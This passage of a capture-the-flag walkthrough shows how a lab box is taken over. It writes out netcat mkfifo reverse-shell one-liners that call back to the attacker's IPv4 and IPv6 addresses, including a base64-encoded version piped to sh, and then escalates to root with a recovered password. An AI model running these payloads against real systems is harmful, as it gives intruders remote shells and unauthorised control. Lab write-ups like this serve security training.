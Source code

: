 This shows the help of `netcat` and can be used to get a reverse shell with that:
```markdown
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/n? 10.10.14.20 9001 >/tmp/f
```

It does not start a shell session, so maybe there is a firewall that blocks it but there is still the **IPv6** way to use:
```markdown
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/n? -6 dead:beef:2::1012 9001 >/tmp/f
```

It connects back to us and starts a reverse shell but executing commands does not work, probably because of all the special characters.
Instead sending it as a **Base64-decoded** string, should resolve this issue:
```markdown
echo -n 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/n? -6 dead:beef:2::1012 9001 >/tmp/f' | base64 -w 0
```

And now it can be executed by piping it to `sh`:
```markdown
echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8L2Jpbi9uPyAtNiBkZWFkOmJlZWY6Mjo6MTAxMiA5MDAxID4vdG1wL2Y= | base64 -d | sh
```

It starts a reverse shell session on my IP and port 9001 as the user _www-data_.

Now it is possible to use the `su` command to change users. As we had access with _loki_ before, the password _"lokipasswordmischieftrickery"_ can only belong to root:
```markdown
su -
```

After sending the password, it changes user to root but _root.txt_ contents say the following:
```markdown
The flag is not here, get a shell to find it!
```

### Getting root.txt

The file was created on _May 17_:
```markdown
-r-------- 1 root root 46 May 17  2018 root.txt
```

Lets search for files that were modified between _May 15_ and _May 19_ to see where the real _root.txt_ was moved:
```markdown
find / -newermt 2018-05-15 ! -newermt 2018-05-19 -type f 2>/dev/null
```

It finds some files and one of them is _/usr/lib/gcc/x86_64-linux-gnu/7/root.txt_.
This is the correct _root.txt_!
